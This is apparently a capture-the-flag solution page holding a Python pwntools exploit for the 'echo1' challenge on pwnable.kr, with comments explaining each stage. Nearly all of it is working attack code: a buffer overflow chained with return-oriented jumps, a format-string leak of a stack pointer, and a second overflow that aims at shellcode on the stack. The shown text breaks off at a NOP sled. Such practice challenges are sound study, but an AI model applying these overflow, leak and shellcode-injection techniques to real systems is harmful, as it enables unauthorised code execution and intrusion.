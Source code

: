 very nice...
### `ert`
```python
# Running echo1 locally on a newer kernel / libc version
# caused the .bss to be loaded as RW- instead of RWX
# And I'm too dumb to know any libc tricks, so to solve
# I ROPed to leak a stack pointer using a format string vuln
# and then jumped to some shellcode on the (executable) stack
# -ert

from pwn import *

p = remote('pwnable.kr', 9010)
# p = process("./echo1")
# context.terminal = ["alacritty", "-e"]
# p = gdb.debug("./echo1", '''
# b *0x400870
# ''')

e = ELF('./echo1')
context.binary = e

p.recvuntil(b' : ')
p.sendline(b"a")
p.recvuntil(b'> ')
p.sendline(b'1')

# set rbp to bss loc and jump to specific address in echo1 to overwrite
# global object o to second stage payload
pl  = b'X'*32
pl += p64(0x602098 + 0x20) # saved base pointer to o's location + 0x20
pl += p64(0x400837)        # jmps to (lea rax [rbp-0x20]) -> overwrite global obj to second stage payload 
pl += p64(e.sym['main'])   # restart to continue exploitation
p.sendline(pl)

# Set global object o ptr to bss, name to a format string vuln,
# and function pointers to fix stack and call print. After the write we call byebye which jumps to the function start and calls greetings but because it accutally jumps to printf after the end of the call it returns to main :)
# second get_input
pl =  b''
pl += p64(0x6020a0) # *o = o + 8 makes O point to the bss segment
pl += b"stack ptr for u :)%16$p " # o[0] = "stack pt", o[1] = "r for u " o[2] = ":)%16$p "
pl += p64(0x4007db) # greetings = printf (mov rdi, rax) (when calling greetings rax holds o's value which now points to the format string)  
pl += p64(0x400819) # byebye = echo1 (mov rbp, rsp) rbp becomes a stack address 
p.sendline(pl)

# get the stack pointer
p.recvuntil(b":)")
sptr = p.recvuntil(b" ")
print("got sptr:", sptr)

# in restarted main, trigger vuln again and jump to stack buffer with shellcode
p.recvuntil(b' : ')
p.sendline(b"a")
p.recvuntil(b'> ')
p.sendline(b'1')

pl  = b"Y"*40
pl += p64(int(sptr, 16) - 280) # played around a bit to find this offset
pl += b'\x90'*42
```
